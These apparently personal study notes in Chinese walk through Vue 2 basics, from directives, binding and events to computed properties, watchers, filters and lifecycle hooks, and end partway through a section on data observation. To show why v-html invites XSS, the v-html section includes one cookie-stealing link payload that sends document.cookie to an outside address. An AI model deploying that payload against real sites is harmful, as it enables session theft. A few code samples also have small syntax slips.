

## 前言
以下是我结合前面的知识以及本文的相关内容所写的demo
- 1、[简易计算器](/demo/Vue/简易计算器.html)
- 2、[选项卡案例](/demo/Vue/选项卡案例.html)
- 3、[验证用户名是否可用](/demo/Vue/验证用户名是否可用.html)
- 4、[图书管理](/demo/Vue/图书管理案例.html)
- 5、[列表过滤实现模糊搜索](/demo/Vue/列表过滤模糊搜索.html)

## Vue基础
### Vue概述
Vue：渐进式JavaScript框架 
### Vue基本使用
Vue代码 --> Vue框架 --> 原生js代码
### Vue模版语法
模板 + 数据 --> 前端渲染 == 静态HTML内容  

> `Vue.config.productionTip = false` 阻止 vue 在启动时生成生产提示。

#### data
`data`有两种写法:  
- 1、对象式
- 2、声明式

```js
new Vue({
  el:'#root',
  //data的第一种写法：对象式
  data:{
    name:'尚硅谷'
  }

  /* data的第二种写法：函数式，组件式开发必须使用函数式 */
  /*  data:function(){
   *    console.log('@@@',this) //此处的this是Vue实例对象
   *    return{
   *      name:'尚硅谷'
   *    }
   *  } 
   */
} 
```

> 由Vue管理的函数，一定不要写箭头函数，一旦写了箭头函数，this就不再是Vue实例了

#### 挂载(el/mount)
挂载有两种方式
```js
const vm = new Vue({
  /* 第一种方式 */
  // el: '#root',
  data: {
    name: 'PengPengQ'
  }
})
console.log(vm)

/* 第二种方式 */
vm.$mount('#root')
```
#### 指令
指令的本质是自定义属性，指令的格式：以`v-`开头(`v-cloak`)  
##### v-cloak
插值表达式存在的问题：**闪动**，可使用`v-cloak`解决。  
**本质**是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉`v-cloak`属性, 使用`css` 配合`v-cloak` 可以解决网速慢时页面展示出`{{xxx}}` 的问题。  
```html
<style type="text/css">
[v-cloak]{
  display: none;
}
</style>
<body>
  <div id="app">
    <div v-cloak>{{msg}}</div>
  </div>
</body>
```
##### 数据绑定指令
- `v-text`：填充纯文本
- `v-html`：在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击
- `v-pre`：填充原始信息(跳过编译部分)

```html
<div>{{msg}}</div>
<div v-text='msg'></div>
<div v-html='msg1'></div>
<div v-html='msg2'></div>
<div v-pre>{{msg}}</div>

<script type="text/javascript">
  new Vue({
    el:'#root',
    data:{
      msg1:'<h3>你好啊！</h3>',
      msg2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
    }
  })
</script>
```
##### 数据响应式
数据响应式：数据的变化导致页面内容的变化。  

数据绑定：将数据填充到标签中。
#### 双向数据绑定指令
双向绑定一般**应用在表单类元素**上，如(input、select等)、`v-model:value`可以简写为`v-model`，因为`v-model`默认收集的就是value值。  

`v-model`指令用法：`<input type="text" v-model:value="uname" />`  
简写为：`v-model`指令用法：`<input type="text" v-model="uname" />`
```html
<div>
  <input type="text" v-model='msg'>
</div>
```
##### MVVM思想
- M：模型(`model`)：`data`中的数据
- V：视图(`View`)：模版代码
- VM：视图模型(`View-Model`)：`Vue`实例(`vm`)

> `data`所有的属性最后都出现在了`vm`身上。

#### 数据代理
##### 回顾defineProperty属性
```js
let number = 18
let person = {
  name:'张三',
  sex:'男',
}

Object.defineProperty(person,'age',{
  // value:18,
  // enumerable:true,   //控制属性是否可以被枚举，默认值是false
  // writable:true,     //控制属性是否可以被修改，默认值是false
  // configurable:true  //控制属性是否可以被删除，默认值是false

  //当有人读取person的age属性时，get函数(getter)就会被调用，且返回值就是age的值
  get(){
    console.log('有人读取age属性了')
    return number
  },

  //当有人修改person的age属性时，set函数(setter)就会被调用，且会收到修改的具体值，具体的值为value
  set(value){
    console.log('有人修改了age属性，且值是',value)
    number = value
  }

})

// console.log(Object.keys(person))  返回数组

console.log(person)
```
`Object.keys()` 方法会**返回一个**由一个**给定对象的自身可枚举属性**组成的**数组**，数组中属性名的排列顺序和正常循环遍历该对象时返回的顺序一致。
```js
// simple array
var arr = ['a', 'b', 'c'];
console.log(Object.keys(arr)); // console: ['0', '1', '2']

// array like object
var obj = { 0: 'a', 1: 'b', 2: 'c' };
console.log(Object.keys(obj)); // console: ['0', '1', '2']

var anObj = { 100: 'a', 2: 'b', 7: 'c' };
console.log(Object.keys(anObj)); // console: ['2', '7', '100']
```
##### 数据代理
```js
let obj = {x:100}
let obj2 = {y:200}

Object.defineProperty(obj2,'x',{
  get(){
    return obj.x
  },
  set(value){
    obj.x = value
  }
})
```
##### Vue中的数据代理
- 1、Vue中的数据代理：
  - 通过`vm`对象来代理`data`对象中属性的操作（读/写）
- 2、Vue中数据代理的好处：
  - 更加方便的操作`data`中的数据
- 3、基本原理：
  - 通过`Object.defineProperty()` 把data对象中所有属性添加到`vm`上。
  - 为每一个添加到`vm` 上的属性，都指定一个 `getter/setter`。
  - 在`getter/setter` 内部去操作（读/写）`data`中对应的属性。


#### 事件绑定
`v-on`指令用法：`<input type=‘button' v-on:click='num++'/>`  
`v-on`简写用法：`<input type=‘button' @click='num++'/>`  

```html
<button v-on:click='num++'>点击</button>
<button @click='num++'>点击1</button>
```
##### 事件函数的调用方式
直接绑定属性名称：`<button v-on:click='say'>Hello</button>`  
调用函数：`<button v-on:click='say()'>Say hi</button>`  
```html
<button @click='handle'>点击2</button>
<button @click='handle()'>点击3</button>

<script type="text/javascript">
  var vm = new Vue({
      el: '#app',
      data: {
        num: 0
      }, 
      methods: {
        // 可简写为handle(){}
        handle: function() {
          // 这里的this是Vue的实例对象+
          console.log(this === vm)
          // 如果这里是箭头函数的话，this就是window
          // 在函数中想要使用data里面的数据 一定要加this 
          this.num++;
        }
      }
  });
</script>
```
> 1、`methods`中配置的函数，都是被Vue所管理的函数，`this`的指向是`vm` 或 组件实例对象  
> 2、`data` 里面的数据才会做数据代理

##### 事件函数参数传递
`@click='demo'` 与`@click='demo($event)'`效果一致，只是后者可以传递参数  
```html
<div id="app">
    <div>{{num}}</div>
    <div>
        <!-- 如果事件直接绑定函数名称，那么默认会传递事件对象作为事件函数的第一个参数 -->
        <button v-on:click='handle1'>点击1</button>
        <button v-on:click='handle2($event, 123, 456)'>点击2</button>
    </div>
</div>
<script type="text/javascript">
  var vm = new Vue({
    el: '#app',
    data: {
      num: 0
    },
    methods: {
      handle1: function(event) {
        console.log(event.target.innerHTML) // 点击1
      },
      handle2: function(event, p, p1) {
        console.log(p, p1)                  // 123 456
        console.log(event.target.innerHTML) // 点击2
        this.num++;
      }
    }
  });
</script>
```
##### 事件修饰符
- 1、`.stop` 阻止冒泡：`<a v-on:click.stop="handle">跳转</a>`
- 2、`.prevent` 阻止默认行为：`<a v-on:click.prevent="handle">跳转</a>`
- 3、`v-once`：只编译一次，显示内容不再具有响应式功能。  
  

Vue中的事件修饰符：
- 1、`prevent`：阻止默认事件（常用）
- 2、`stop`：阻止事件冒泡（常用）
- 3、`once`：事件只触发一次（常用）
- 4、`capture`：使用事件的捕获模式
- 5、`self`：只有event.target是当前操作的元素时才触发事件
- 6、`passive`：事件的默认行为立即执行，无需等待事件回调执行完毕

```html
<div id="app">
  <div>{{num}}</div>
  <div v-on:click='handle0'>
    <button v-on:click.stop='handle1'>点击1</button>
  </div>
  <div>
    <!-- 修饰符可以连写 -->
    <a href="http://www.baidu.com" v-on:click.prevent='handle2'>百度</a>
  </div>
  <div v-once>{{info}}</div>
</div>
```
##### 按钮修饰符
- `.enter`回车键：`<input v-on:keyup.enter='submit'>`
- `.delete`删除键：`<input v-on:keyup.delete='handle'>` 
  

Vue中常用的按键别名：  
- 1、回车 => `enter` 
- 2、删除 => `delete`(捕获“删除”和“退格”键)
- 3、退出 => `esc` 
- 4、空格 => `space` 
- 5、换行 => `tab` (特殊，必须配合keydown去使用) 
- 6、上 => `up`
- 7、下 => `down`
- 8、左 => `left`
- 9、右 => `right`
  

Vue未提供别名的按键，可以使用按键原始的`key` 值去绑定，但注意要转为`kebab-case`（短横线命名）  

系统修饰键（用法特殊）：`ctrl、alt、shift、meta`
- (1)、配合`keyup`使用：按下修饰键的同时，再按下其他键，随后释放其他键，事件才被触发。  
- (2)、配合`keydown`使用：正常触发事件。  

```html
<div id="app">
  <form action="">
    <div>
      用户名：
      <input type="text" v-on:keyup.delete='clearContent' v-model='uname'>
    </div>
    <div>
      <input type="button" v-on:click='handleSubmit' value="提交">
    </div>
  </form>
</div>
<script type="text/javascript">
  var vm = new Vue({
    el: '#app',
    data: {
      uname: '',
    },
    methods: {
      clearContent: function(){
        // 按delete键的时候，清空用户名
        this.uname = '';
      },
      handleSubmit: function(){
        console.log(this.uname)
      }
    }
  });
</script>
```
##### 自定义按键修饰符
全局`config.keyCodes` 对象，`Vue.config.keyCodes.f1 = 112`

```html
<div id="app">
  <input type="text" v-on:keyup.aaa='handle' v-model='info'>
</div>
<script type="text/javascript">
  /*
   * 规则：自定义按键修饰符名字是自定义的，但是对应的值必须是按键对应event.keyCode值
   */
  Vue.config.keyCodes.aaa = 65 // 必须按keyCode为65的键， aaa可以随意设置
  var vm = new Vue({
    el: '#app',
    data: {
      info: ''
    },
    methods: {
      handle: function(event){
        console.log(event.keyCode)
      }
    }
  });
</script>
```
#### 属性绑定
`v-bind`指令用法：`<a v-bind:href='url'>跳转</a>`，绑定之后里面的值当作JS表达式，所以`url`是一个JS表达式，值在`vm`中  
缩写：`<a :href='url'>跳转</a>`  
```html
<div id="app">
  <a v-bind:href="url">百度</a>
  <a :href="url">百度1</a>
  <button v-on:click='handle'>切换</button>
</div>
<script type="text/javascript">
  var vm = new Vue({
    el: '#app',
    data: {
      url: 'http://www.baidu.com'
    },
    methods: {
      handle: function(){
        // 修改URL地址
        this.url = 'https://pengpeng-qi.github.io/';
      }
    }
  });
</script>
```
##### v-model的底层实现原理分析
`<input v-bind:value="msg" v-on:input="msg=$event.target.value">`
```html
<div id="app">
  <div>{{msg}}</div>
  // 三种方式同效
  <input type="text" v-bind:value="msg" v-on:input='handle'>
  <input type="text" v-bind:value="msg" v-on:input='msg=$event.target.value'>
  <input type="text" v-model='msg'>
</div>
<script type="text/javascript">
  var vm = new Vue({
    el: '#app',
    data: {
      msg: 'hello'
    },
    methods: {
      handle: function(event){
        // 使用输入域中的最新的数据覆盖原来的数据
        this.msg = event.target.value;
      }
    }
  });
</script>
```
#### 样式绑定
class样式处理：  
- 字符串语法：`<div :class='xxx'>`、用于类名不确定，需要动态获取
- 对象语法：`<div v-bind:class="{active: isActive}"></div>`  
- 数组语法：`<div v-bind:class="[activeClass, errorClass]"></div>`
  

style样式处理：
- 对象语法：`<div v-bind:style="{color: activeColor, fontSize: fontSize}"></div>`
- 数组语法：`<div v-bind:style="[baseStyle, overridingStyles]"></div>`

```html
<body>
  <div id="root">
    <!-- 绑定class样式--字符串写法，适用于：样式的类名不确定，需要动态指定 -->
    <div class="basic" :class="mood" @click="changeMood">{{name}}</div> <br/><br/>

    <!-- 绑定class样式--数组写法，适用于：要绑定的样式个数不确定、名字也不确定，操作样式数组 -->
    <div class="basic" :class="classArr">{{name}}</div> <br/><br/>
    <!-- 下面这种不常使用 -->
    <!-- <div class="basic" :class="['atguigu1','atguigu2','atguigu3']">{{name}}</div> <br/><br/> -->
    <!-- 注意数组里记得加引号，如果没加引号需要在data里面配置，例如[a, b, c], data里面应该是a: 'atguigu1'.... -->

    <!-- 绑定class样式--对象写法，适用于：要绑定的样式个数确定、名字也确定，但要动态决定用不用 -->
    <div class="basic" :class="classObj">{{name}}</div> <br/><br/>

    <!-- 绑定style样式-不常用-对象写法 -->
    <div class="basic" :style="styleObj">{{name}}</div> <br/><br/>
      <!-- <div class="basic" :style="fontSize: fizes +'px'">{{name}}</div> <br/><br/> -->
      <!-- fizes需要在data中赋值 -->
    <!-- 绑定style样式-不常用-数组写法 -->
    <div class="basic" :style="styleArr">{{name}}</div>
    <!-- :style="[a,b]"其中a、b是样式对象 -->
  </div>
</body>

<script type="text/javascript">
  Vue.config.productionTip = false
  
  const vm = new Vue({
    el:'#root',
    data:{
      name:'尚硅谷',
      mood:'normal',
      classArr:['atguigu1','atguigu2','atguigu3'],
      classObj:{
        atguigu1:false,
        atguigu2:false,
      },
      styleObj:{
        fontSize: '40px', // 注意不是font-size
        color:'red',
      },
      styleArr:[
        {
          fontSize: '40px',
          color:'blue',
        },
        {
          backgroundColor:'gray' // 大驼峰
        }
      ]
    },
    methods: {
      changeMood(){
        const arr = ['happy','sad','normal']
        const index = Math.floor(Math.random()*3)
        this.mood = arr[index]
      }
    },
  })
</script>
```
#### 分支循环结构
##### 分支结构
- 1、`v-if`
- 2、`v-else`
- 3、`v-else-if`
- 4、`v-show`

```html
<div id="app">
  <div v-if='score>=90'>优秀</div>                <!-- 不显示 -->
  <div v-else-if='score<90&&score>=80'>良好</div> <!-- 不显示 -->
  <div v-else-if='score<80&&score>60'>一般</div>  <!-- 不显示 -->
  <div v-else>比较差</div>
  <div v-show='flag'>测试v-show</div>             <!-- 不显示 -->
  <button v-on:click='handle'>点击</button>

  <!-- v-if与template的配合使用，v-show不能-->
  <template v-if="n === 1">
    <h2>你好</h2>
    <h2>北京</h2>
  </template>
	<button v-on:click='n++'>点击n++</button>
</div>
<script type="text/javascript">
  /*
    v-show的原理：控制元素样式是否显示 display:none
  */
  var vm = new Vue({
    el: '#app',
    data: {
      score: 10,
      flag: false,
      n: 0
    },
    methods: {
      handle: function(){
        this.flag = !this.flag;
      }
    }
  });
</script>
```
`v-if`与`v-show`的区别：
- `v-if`控制元素**是否渲染到页面**、实质是控制DOM元素
- `v-show`控制元素**是否显示**(已经渲染到了页面)、适合频繁切换显示模式

##### 循环结构
- 1、`v-for`：遍历数组，用于展示列表数据
  - `<li v-for='item in list'>{{item}}</li>`
  - `<li v-for='(item,index) in list'>{{item}} + '---' +{{index}}</li>`
- 2、key的作用：帮助Vue区分不同的元素，从而提高性能，常使用id
  - `<li :key='item.id' v-for='(item, index) in list'>{{item}} + --- + {{index}}</li>`
- 3、遍历对象
  - `<div v-for='(value, k, index) in object' :key="k"></div>`

```html
  <div id="app">
    <div>水果列表</div>
    <ul>
      <!-- 简单数组 -->
      <li v-for='item in fruits'>{{item}}</li>
      <li v-for='(item, index) in fruits'>{{item + '---' + index}}</li>

      <!-- 数组中有对象 -->
      <!-- 如果item没有id，可以使用index，但不推荐使用index -->
      <li :key='item.id' v-for='(item, index) in myFruits'>
        <span>{{item.ename}}</span>   <!-- item是数组中的每一项 -->
        <span>{{item.cname}}</span>
      </li>

    </ul>
  </div>
  <script type="text/javascript">
    var vm = new Vue({
      el: '#app',
      data: {
        fruits: ['apple', 'orange', 'banana'],
        myFruits: [{
          id: 1,
          ename: 'apple',
          cname: '苹果'
        },{
          id: 2,
          ename: 'orange',
          cname: '橘子'
        },{
          id: 3,
          ename: 'banana',
          cname: '香蕉'
        }]
      }
    });
  </script>
```
遍历对象：
```html
<!-- v-if v-for结合使用 -->
<div id="app">
  <div v-if='v==13' v-for='(v,k,i) in obj'>{{v + '---' + k + '---' + i}}</div>
</div>
<script type="text/javascript">
  var vm = new Vue({
    el: '#app',
    data: {
      obj: {
        uname: 'zhangsan',
        age: 13,
        gender: 'female'
      }
    }
  });
</script>
```
##### key的原理
虚拟DOM中`key` 的作用：`key`是虚拟`DOM` 对象的标识，当数据发生变化时，Vue会根据**新数据**生成**新的虚拟DOM**, 随后Vue进行**新虚拟DOM**与**旧虚拟DOM**的差异比较，比较规则如下：  

对比规则：
- 1、旧虚拟DOM中找到了与新虚拟DOM相同的key： 
  - 1、若虚拟DOM中内容没变, 直接使用之前的真实DOM
  - 2、若虚拟DOM中内容变了, 则生成新的真实DOM，随后替换掉页面中之前的真实DOM
- 2、旧虚拟DOM中未找到与新虚拟DOM相同的`key`
  - 1、创建新的真实DOM，随后渲染到到页面
  

用`index` 作为`key` 可能会引发的问题：
- 1.若对数据进行：逆序添加、逆序删除等破坏顺序操作:
  - 会产生没有必要的真实DOM更新 ==> 界面效果没问题, 但效率低。
- 1.如果结构中还包含输入类的DOM：
  - 会产生错误DOM更新 ==> 界面有问题。

开发中如何选择`key`?:
- 1、最好使用每条数据的**唯一标识作为key**, 比如id、手机号、身份证号、学号等唯一值
- 2、如果不存在对数据的逆序添加、逆序删除等破坏顺序操作，仅用于渲染列表用于展示，使用`index` 作为`key` 是没有问题的  
  


### Vue常用特性
#### 表单操作
- `input`
- `textarea`
- `select`
- `radio`
- `checkbox`
  

若：`<input type="text"/>`，则`v-model` 收集的是`value` 值，用户输入的就是`value` 值。  
若：`<input type="radio"/>`，则`v-model` 收集的是`value` 值，且要给标签配置`value` 值。  
若：`<input type="checkbox"/>`  
1、没有配置`input` 的`value` 属性，那么收集的就是`checked`（勾选 or 未勾选，是布尔值）  
2、配置`input` 的`value` 属性:  
- `v-model`的初始值是非数组，那么收集的就是`checked`（勾选 or 未勾选，是布尔值）
- `v-model`的初始值是数组，那么收集的的就是`value` 组成的数组

```html
<div id="app">
  <form>
    <div>
      <span>姓名：</span>
      <span>
        <input type="text" v-model='uname'>
      </span>
    </div>
    <div>
      <span>性别：</span>
      <span>
        <input type="radio" id="male" value="1" v-model='gender'>
        <label for="male">男</label>
        <input type="radio" id="female" value="2" v-model='gender'>
        <label for="female">女</label>
      </span>
    </div>
    <div>
      <span>爱好：</span>
      <input type="checkbox" id="ball" value="1" v-model='hobby'>
      <label for="ball">篮球</label>
      <input type="checkbox" id="sing" value="2" v-model='hobby'>
      <label for="sing">唱歌</label>
      <input type="checkbox" id="code" value="3" v-model='hobby'>
      <label for="code">写代码</label>
    </div>
    <div>
      <span>职业：</span>
      <select v-model='occupation' multiple>
        <option value="0">请选择职业...</option>
        <option value="1">教师</option>
        <option value="2">软件工程师</option>
        <option value="3">律师</option>
      </select>
    </div>
    <div>
      <span>个人简介：</span>
      <textarea v-model='desc'></textarea>
    </div>
    <div>
      <input type="submit" value="提交" @click.prevent='handle'>
    </div>
  </form>
</div>
<script type="text/javascript">
  var vm = new Vue({
    el: '#app',
    data: {
      uname: 'lisi',          // 默认值lisi
      gender: 2,              // 默认第二个被选中
      hobby: ['2','3'],       // 默认第二、三个被选中
      // occupation: 3        // 默认选择第三个
      occupation: ['2','3'],  // 默认第二、三个被选中
      desc: 'nihao'           // 默认值nihao
    },
    methods: {
      handle: function(){
        // console.log(this.uname)
        // console.log(this.gender)
        // console.log(this.hobby.toString())
        // console.log(this.occupation)
        console.log(this.desc)
      }
    }
  });
</script>
```
可通过[这个](/demo/Vue/表单基本操作.html)查看  
**表单域修饰符**：
- `number`：转化为数值
- `trim`：去掉开始和结尾的空格
- `lazy`：将input事件(表单内数值发送改变就会触发)切换为change(失去焦点才会发送触发)事件

`<input v-model.number="age" type="number">`
#### 自定义指令
**自定义指令的语法规则**(获取元素焦点)：

```
自定义指令总结：
    一、定义语法：
          (1).局部指令：
                new Vue({															new Vue({
                  directives:{指令名:配置对象}   或   		directives{指令名:回调函数}
                }) 																		})
          (2).全局指令：
                  Vue.directive(指令名,配置对象) 或   Vue.directive(指令名,回调函数)

    二、配置对象中常用的3个回调：
          (1).bind：指令与元素成功绑定时调用。
          (2).inserted：指令所在元素被插入页面时调用。
          (3).update：指令所在模板结构被重新解析时调用。

    三、备注：
          1.指令定义时不加v-，但使用时要加v-；
          2.指令名如果是多个单词，要使用kebab-case命名方式，不要用camelCase命名。
```
```js
/* 全局指令 */
Vue.directive('focus' {
  inserted: function(el) {
    // 获取元素的焦点
    el.focus();
  }
})
```
**自定义指令用法**：
```html
<input type="text" v-focus>
```
**带参数的自定义指令**：
```html
<div id="app">
  <input type="text" v-color='msg'>
</div>
<script type="text/javascript">
  Vue.directive('color', {
    bind: function(el, binding){
      // 根据指令的参数设置背景色
      el.style.backgroundColor = binding.value.color;
    }
  });
  var vm = new Vue({
    el: '#app',
    data: {
      msg: {
        color: 'blue'
      }
    },
  });
</script>
```
**局部指令**：
```js
var vm = new Vue({
  el: '#app',
  data: {
    msg: {
      color: 'red'
    }
  },
  /* 定义局部指令 */
  directives: {
    color: {
      /* 第一个参数是获取的元素，第二个参数是绑定的值 */
      bind: function(el, binding){
        el.style.backgroundColor = binding.value.color;
      }
    },
    focus: {
      inserted: function(el) {
        el.focus();
      }
    }
  }
});
```
#### 计算属性
**定义**：要用的属性不存在，要通过**已有属性**计算得来。   
**原理**：底层借助了`Objcet.defineproperty`方法提供的`getter`和`setter`。  

get函数在**初次读取**的时候以及**依赖的数据发送变化**时会执行。  

和`methods`相比，内部有**缓存**机制，**当多个地方调用该计算属性时，不用再次计算**，效率更高。  

计算属性最终会出现在vm上，直接读取使用即可
```html
<body>
  <div id="root">
    姓：<input type="text" v-model="firstName"> <br/><br/>
    名：<input type="text" v-model="lastName"> <br/><br/>
    全名：<span>{{fullName}}</span> <br/><br/>
  </div>
</body>
<script type="text/javascript">
  const vm = new Vue({
    el:'#root',
    data:{
      firstName:'张',                   // 属性
      lastName:'三',                    // vm._date 里有data里的值，但是没有计算属性,计算属性最终会出现在vm上
    },
    computed:{                          // 计算属性可能会有多个，所以用对象包起来
      // fullName:{                        // 通过对属性计算得出的属性，注意计算属性是属性，调用的时候不能把它视为对象调用
      //   get(){                          // 当fullName被读取的时候，get就会被调用，返回值就是fullName的值
      //     // console.log(this)          //此处的this是vm
      //     return this.firstName + '-' + this.lastName
      //   },
      //   set(value){                     // 当有人修改fullName()(演示可在控制台中通过vm.fullName修改)调用set()
      //     const arr = value.split('-')  // 修改之后的值传递给set(value)的value
      //     this.firstName = arr[0]       // 令data中的属性赋值为修改后的属性，
      //     this.lastName = arr[1]        // fullName()里的firstName和lastName才会改变至fullName的值才会发送改变
      //   }
      // }

      //简写，当不使用set()时,计算属性大部分时间不用修改
      fullName(){ // fullName: function(){
        console.log('get被调用了')
        return this.firstName + '-' + this.lastName
      }
    }
  })
</script>
```
#### 监视属性
数据一旦发生变化就通知侦听器所绑定方法  
```html
<body>
  <div id="root">
    <h2>今天天气很{{info}}</h2>
    <button @click="changeWeather">切换天气</button>
  </div>
</body>

<script type="text/javascript">
  Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。
  
  const vm = new Vue({
    el:'#root',
    data:{
      isHot:true,
    },
    computed:{
      info(){
        return this.isHot ? '炎热' : '凉爽'
      }
    },
    methods: {
      changeWeather(){
        this.isHot = !this.isHot
      }
    },
    watch:{                           // 监视配置
      isHot:{                         // 想监视什么属性，写下需要监视的属性名
        // immediate:true,            // 初始化时让handler调用一下
        handler(newValue,oldValue){   // 当isHot发生改变时，handler发生调用
          console.log('isHot被修改了',newValue,oldValue)
          // newValue：修改后的值
          // oldValue：修改前的值
        }
      }
    } 
  })

  // 写法二
  // vm.$watch('isHot',{
  //   immediate:true, //初始化时让handler调用一下
  //   //handler什么时候调用？当isHot发生改变时。
  //   handler(newValue,oldValue){
  //     console.log('isHot被修改了',newValue,oldValue)
  //   }
  // })
</script>
```
##### 深度监视
```html
<body>
  <div id="root">
    <h3>a的值是:{{numbers.a}}</h3>
    <button @click="numbers.a++">点我让a+1</button>
  </div>
</body>
<script type="text/javascript">
  
  const vm = new Vue({
    el:'#root',
    data:{
      numbers:{
        a:1,
        b:1
      }
    },
    watch:{              // Vue中的watch默认不监测对象内部值的改变（一层）。
      //监视多级结构中某个属性的变化
      // 'numbers.a':{   // key是字符串，所以这里不能简写
      //   handler(){
      //     console.log('a被改变了')
      //   }
      // }

      //监视多级结构中所有属性的变化
      numbers:{         // numbers是简写形式，完整是[numbers]
        deep:true,      // 开启深度监测，配置deep:true可以监测对象内部值改变（多层）
        /* 不开启监视numbers，开启监视numbers内部的值 */
        handler(){
          console.log('numbers改变了')
        }
      }
    }
  })
</script>
```
> Vue自身可以监测对象内部值的改变，但Vue提供的`watch` 默认不可以！

##### 监视属性的简写
```js
// 局部监测
// 正常写法
// isHot:{
//   // immediate:true, //初始化时让handler调用一下
//   // deep:true,//深度监视
//   handler(newValue,oldValue){
//     console.log('isHot被修改了',newValue,oldValue)
//   }
// },

//简写,当配置项只需要handler的时候
isHot(newValue,oldValue){
  console.log('isHot被修改了',newValue,oldValue)
}

// 全局监测
// 正常写法
// vm.$watch('isHot',{
//   immediate:true, //初始化时让handler调用一下
//   deep:true,//深度监视
//   handler(newValue,oldValue){
//     console.log('isHot被修改了',newValue,oldValue)
//   }
// })

//简写
vm.$watch('isHot',function(newValue,oldValue){
  console.log('isHot被修改了',newValue,oldValue)
})
```
##### 计算属性与监视器的区别：
1、`computed`能完成的功能，`watch`都可以完成。  
2、`watch`能完成的功能，`computed`不一定能完成，例如：`watch`可以进行异步操作。  
```html
<body>
  <div id="root">
    姓：<input type="text" v-model="firstName"> <br/><br/>
    名：<input type="text" v-model="lastName"> <br/><br/>
    全名：<span>{{fullName}}</span> <br/><br/>
  </div>
</body>

<script type="text/javascript">
  const vm = new Vue({
    el:'#root',
    data:{
      firstName:'张',
      lastName:'三',
      fullName:'张-三'
    },
    watch:{
      firstName(val){
        // setTimeout()的this指向window，所以这里需要使用箭头函数
        setTimeout(()=>{
          console.log(this) // vue实例
          this.fullName = val + '-' + this.lastName
        },1000); // 等一秒再显示
      },
      lastName(val){
        this.fullName = this.firstName + '-' + val
      }
    }
  })
</script>
```
具体案例可见[验证用户名是否可用](/demo/Vue/验证用户名是否可用.html)
#### 过滤器
格式化数据，比如将字符串格式化为首字母大写，将日期格式化为指定的格式等.  

自定义过滤器：
```js
/* 全局过滤器 */
Vue.filter(‘过滤器名称’, function(value){ 
  // 过滤器业务逻辑
})
```
```html
<div id="app">
  <input type="text" v-model='msg'>
  <div>{{msg | upper}}</div>
  <!-- 级联操作，先对upper过滤然后将结果进行lower过滤 -->
  <div>{{msg | upper | lower}}</div>
  <!-- 属性绑定 -->
  <div :abc='msg | upper'>测试数据</div>
  <!-- 过滤器实现（传参） -->
  <h3>现在是：{{time | timeFormater('YYYY_MM_DD')}}</h3>
</div>
<script type="text/javascript">
  /* 全局过滤器 */
  Vue.filter('upper', function(val) {
    return val.charAt(0).toUpperCase() + val.slice(1);
  });
  Vue.filter('lower', function(val) {
    return val.charAt(0).toLowerCase() + val.slice(1);
  });

  var vm = new Vue({
    el: '#app',
    data: {
      msg: ''
    },
    /* 局部过滤器 */
    filters: {
      upper: function(val) {
        return val.charAt(0).toUpperCase() + val.slice(1);
      },
      timeFormater(value,str='YYYY年MM月DD日 HH:mm:ss'){
      // console.log('@',value)
      return dayjs(value).format(str)
      }
    }
  });
</script>
```
> 1、`dayjs`[dayjs官方文档](https://github.com/iamkun/dayjs/blob/HEAD/docs/zh-cn/README.zh-CN.md) 是轻量版的 `Moment.js`

#### 生命周期
主要阶段：
- 1、挂载
  - `beforeCreate`：在实例化初始之后，数据观测和事件配置之前被调用
  - `created`：实例创建完成之后被立即调用
  - `beforeMount`：挂载开始之前被调用
  - `mounted`：el被新创建的`vm.$el`替换，并挂载到实例上去之后调用该钩子
- 2、更新
  - `beforeUpdate`：数据更新时调用，发生在虚拟DOM打补丁之前
  - `updated`：数据更换导致的虚拟DOM重新渲染和打补丁，在这之后会调用该钩子
- 3、销毁
  - `beforeDestory`：实例销毁之前调用
  - `destoryed`：实例销毁后调用

常用的生命周期钩子：
- 1、`mounted`: 发送ajax请求、启动定时器、绑定自定义事件、订阅消息等【初始化操作】。
- 2、`beforeDestroy`: 清除定时器、解绑自定义事件、取消订阅消息等【收尾工作】。

关于销毁Vue实例：
- 1、销毁后借助Vue开发者工具看不到任何信息。
- 2、销毁后自定义事件会失效，但原生DOM事件依然有效。
- 3、一般不会在`beforeDestroy` 操作数据，因为即便操作数据，也不会再触发更新流程了。


```js
new Vue({
  el:'#root',
  data:{
    opacity:1
  },
  methods: {
    stop(){
      this.$destroy()
    }
  },
  //Vue完成模板的解析并把初始的真实DOM元素放入页面后（挂载完毕）调用mounted
  mounted(){
    console.log('mounted',this)
    this.timer = setInterval(() => {
      console.log('setInterval')
      this.opacity -= 0.01
      if(this.opacity <= 0) this.opacity = 1
    },16)
  },
  beforeDestroy() {
    clearInterval(this.timer)
    console.log('vm即将驾鹤西游了')
  },
})
```
### 综合案例
#### 变更方法
会修改原始数据：
- `push()`
- `pop()`
- `shift()`
- `unshift()`
- `splice()`
- `sort()`
- `reverse()`

> 响应式操作数组数据，可使用以上七个方法
> 更多参考可查看[变更方法](https://cn.vuejs.org/v2/guide/list.html#%E5%8F%98%E6%9B%B4%E6%96%B9%E6%B3%95)

#### 替换数组
生成新数组：
- `filter()`
- `concat()`
- `slice()`

#### Vue.set() 修改响应式数据
- 1、`Vue.set(target, propertyName/index, value)`
- 2、`vm.$set(target, propertyName/index, value)`
  - 1、参数一表示要处理的数组名称 
  - 2、参数二表示要处理的数组的索引 
  - 3、参数三表示要处理的数组的值

```html
<div id="app">
  <ul>
    <li v-for='item in list'>{{item}}</li>
  </ul>
  <div>
    <div>{{info.name}}</div>
    <div>{{info.age}}</div>
    <div>{{info.gender}}</div>
  </div>
</div>
<script type="text/javascript">
  var vm = new Vue({
    el: '#app',
    data: {
      list: ['apple', 'orange', 'banana'],
      info: {
        name: 'lisi',
        age: 12
      }
    },
  });
  // 操作数组
  // vm.list[1] = 'lemon';       // 值被修改，但是不会响应式显示在页面上
  vm.$set(vm.list, 1, 'lemon');  // 响应式显示在页面上

  // 操作对象
  // vm.info.gender = 'male';    // 值被修改，但是不会响应式显示在页面上
  vm.$set(vm.info, 'gender', 'female'); 
  </script>
```
> `Vue.set()` 只能给`vm` 里面的`data` 里面的某一个对象或属性添加信息，而不能给`data` 添加  
> 更多参考请查看[Vue.set()](https://cn.vuejs.org/v2/api/#Vue-set)

### 数据监测
#### 数据监测原理
Vue监视数据的原理：  
1、`vue` 会监视`data` 中所有层次的数据。  
2、如何监测**对象**中的数据？  
- 通过setter实现监视，且要在new Vue时就传入要监测的数据。
  - 1、对象中后追加的属性，Vue默认不做响应式处理
  - 2、如需给后添加的属性做响应式，请使用如下API：
